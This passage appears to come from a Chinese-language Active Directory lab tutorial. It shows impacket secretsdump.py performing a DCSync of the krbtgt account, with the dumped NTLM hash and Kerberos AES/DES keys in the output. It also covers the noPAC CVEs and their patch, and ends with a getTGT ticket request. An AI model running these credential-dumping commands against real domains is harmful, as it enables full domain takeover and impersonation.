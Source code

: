 ```plain
(py38) C:\root\tools\impacket\examples> python3 secretsdump.py -k -no-pass administrator@dc1.sec.com -dc-ip 192.168.30.2 -just-dc-user sec/krbtgt -debug
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/miniconda3/envs/py38/lib/python3.8/site-packages/impacket
[+] Using Kerberos Cache: administrator.ccache
[+] Domain retrieved from CCache: SEC.COM
[+] SPN CIFS/DC1.SEC.COM@SEC.COM not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/SEC.COM@SEC.COM
[+] Using TGT from cache
[+] Trying to connect to KDC at 192.168.30.2:88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Trying to connect to KDC at 192.168.30.2:88
[+] Calling DRSCrackNames for sec\krbtgt
[+] Calling DRSGetNCChanges for {8a59bc7a-444e-4b1a-867b-e7a2ce8b044b}
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=sec,DC=com
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4c419f69c7f6cbfd5027f273a4fb5236:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:739d1037f7e8453d7cc934548a9a9504a95a1cd77cf0746cb62c58921a643406
krbtgt:aes128-cts-hmac-sha1-96:08acd860886b3d0f5d365c62b76591a7
krbtgt:des-cbc-md5:266e6158fe3b9752
[*] Cleaning up...

(py38) C:\root\tools\impacket\examples>

```

参考1：[https://drsuresh.net/articles/kerberos2023](https://drsuresh.net/articles/kerberos2023)

参考2：[https://labs.lares.com/fear-kerberos-pt3/](https://labs.lares.com/fear-kerberos-pt3/)

注意： Microsoft 于 2021 年 11 月发布了安全补丁KB5008380 — 身份验证更新，以解决 CVE-2021-42287（又名 Kerberos 密钥分发中心 (KDC) 混淆）。此安全绕过漏洞会影响 Kerberos PAC，并与 CVE-2021-42278（sAMAccountName 欺骗）一起允许潜在攻击者冒充域控制器。此攻击称为noPAC。此后，如果提供的用户名在 Active Directory 中不存在，KDC 将返回错误： KDC_ERR_TGT_REVOKED。

# 九、请求TGT（getTGT）
```plain
C:\root> impacket-getTGT sec/administrator@192.168.30.2 -dc-ip 192.168.30.2 -debug
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /root/miniconda3/lib/python3.12/site-packages/impacket
Password:
[+] Trying to connect to KDC at 192.168.30.2:88
[+] Trying to connect to KDC at 192.168.30.2:88
[*] Saving ticket in administrator@192.168.30.2.ccache

```

